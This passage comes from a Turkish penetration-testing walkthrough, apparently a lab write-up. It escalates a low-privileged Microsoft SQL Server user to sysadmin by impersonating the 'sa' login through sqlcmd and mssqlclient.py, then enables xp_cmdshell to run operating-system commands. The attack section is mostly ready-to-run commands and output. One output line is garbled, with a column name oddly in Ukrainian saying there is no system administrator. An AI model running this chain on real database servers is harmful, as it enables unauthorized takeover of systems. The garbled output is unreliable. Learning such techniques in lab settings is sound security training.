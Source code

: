 `guest` kullanıcısının düşük yetkilere sahip olmasına rağmen, `sa` (system administrator) gibi yüksek yetkili bir kullanıcıyı `IMPERSONATE` etme yetkisi olabilir.

### 4.1. `sqlcmd` ile IMPERSONATE

`sa` kullanıcısının kimliğine bürünmek için:

```sql
1> EXECUTE AS LOGIN = 'sa';
2> GO
```

Başarılı olup olmadığını kontrol edelim:

```sql
1> SELECT SYSTEM_USER;
2> GO
-- Çıktı: sa

1> SELECT IS_SRVROLEMEMBER('sysadmin');
2> GO
-- Çıktı: 1 (artık sysadmin)
```
Çıktıların `sa` ve `1` olması, `IMPERSONATE` işleminin başarılı olduğunu ve artık `sysadmin` yetkilerine sahip olduğumuzu gösterir.

### 4.2. `mssqlclient.py` ile IMPERSONATE

`mssqlclient.py` kabuğunda aynı SQL komutunu çalıştırırız:

```sql
SQL> EXECUTE AS LOGIN = 'sa';
GO

SQL> SELECT SYSTEM_USER;
GO
[*] Row 0:
[*] user_name = sa

SQL> SELECT IS_SRVROLEMEMBER('sysadmin');
GO
[*] Row 0:
[*] немає системного адміністратора = 1
```
Sonuçlar `sqlcmd` ile aynıdır, `sa` kullanıcısının kimliğine başarıyla büründük.

## 5. `xp_cmdshell`'i Etkinleştirme ve Komut Çalıştırma

`sa` yetkilerine sahip olduğumuza göre, işletim sistemi seviyesinde komut çalıştırmamızı sağlayan `xp_cmdshell` prosedürünü etkinleştirebiliriz.

### 5.1. `sqlcmd` ile `xp_cmdshell`

```sql
-- Gelişmiş seçenekleri göster
1> EXEC sp_configure 'show advanced options', 1;
2> RECONFIGURE;
3> GO

-- xp_cmdshell'i etkinleştir
1> EXEC sp_configure 'xp_cmdshell', 1;
2> RECONFIGURE;
3> GO
```
